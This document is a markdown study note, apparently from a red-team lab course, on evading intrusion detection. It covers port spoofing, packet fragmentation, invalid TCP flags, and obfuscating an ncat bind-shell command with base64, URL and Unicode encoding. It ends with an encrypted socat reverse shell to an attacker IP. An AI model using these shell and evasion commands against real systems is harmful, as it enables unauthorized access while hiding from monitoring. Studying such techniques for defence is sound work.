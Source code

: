 ```yaml
---
dg-publish: true
---
```







- Intrusion Detection System / Intrusion Prevention System
- The IDS/IPS system might be configured to block certain protocols and allow others. For instance, you might consider using UDP instead of TCP or rely on HTTP instead of DNS to deliver an attack or exfiltrate data.

## ==**Manipulate (Source) TCP/UDP Port**==

- Without deep packet inspection, the port numbers are the primary indicator of the service used.
- In other words, network traffic involving TCP port 22 would be interpreted as SSH traffic unless the security solution can analyze the data carried by the TCP segments.

## ==Use Session Splicing (IP Packet Frag)==

- The assumption is that if you break the packet(s) related to an attack into smaller packets, you will avoid matching the IDS signatures.
    - If the IDS is looking for a particular stream of bytes to detect the malicious payload, divide your payload among multiple packets. Unless the IDS reassembles the packets, the rule won’t be triggered.
- Suppose you want to force all your packets to be fragmented into specific sizes. In that case, you should consider using a program such as [Fragroute](https://www.monkey.org/~dugsong/fragroute/).
    - `fragroute` can be set to read a set of rules from a given configuration file and applies them to incoming packets.

## ==Sending Invalid Packets==

- Nmap also lets you send packets with custom TCP flags, including invalid ones. The option `--scanflags` lets you choose which flags you want to set.
    - `URG` for Urgent
    - `ACK` for Acknowledge
    - `PSH` for Push
    - `RST` for Reset
    - `SYN` for Synchronize
    - `FIN` for Finish

## ==Payload Manipulation==

### **Encode to Base64 format**

- Can use one of the many online tools that encode your input to Base64. Alternatively, we can use `base64` commonly found on Linux systems.

```Shell
cat input.txt
ncat -lvnp 1234 -e /bin/bash

base64 input.txt
bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==
```

### URL Encoding

- URL encoding converts certain characters to the form %HH, where HH is the hexadecimal ASCII representation. English letters, period, dash, and underscore are not affected.

```Shell
urlencode ncat -lvnp 1234 -e /bin/bash
```

### Use Escaped Unicode

- Some applications will still process your input and execute it properly if you use escaped Unicode. There are multiple ways to use escaped Unicode depending on the system processing the input string.
- It is clearly a drastic transformation that would help you evade detection, assuming the target system will interpret it correctly and execute it.
- `ncat -lvnp 1234 -e /bin/bash` becomes
    -  `\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`

## Encrypt Communication Channel

- Because an IDS/IPS won’t inspect encrypted data, an attacker can take advantage of encryption to evade detection. Unlike encoding, encryption requires an encryption key.
- One direct approach is to create the necessary encryption key on the attacker’s system and set `socat` to use the encryption key to enforce encryption as it listens for incoming connections.

`openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt`

- Listening on the victim system, we execute this :

```Shell
socat OPENSSL:10.20.30.129:4443,verify=0 EXEC:/bin/bash
```

- On attacker’s system, run cat /etc/passwd

```Shell
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
```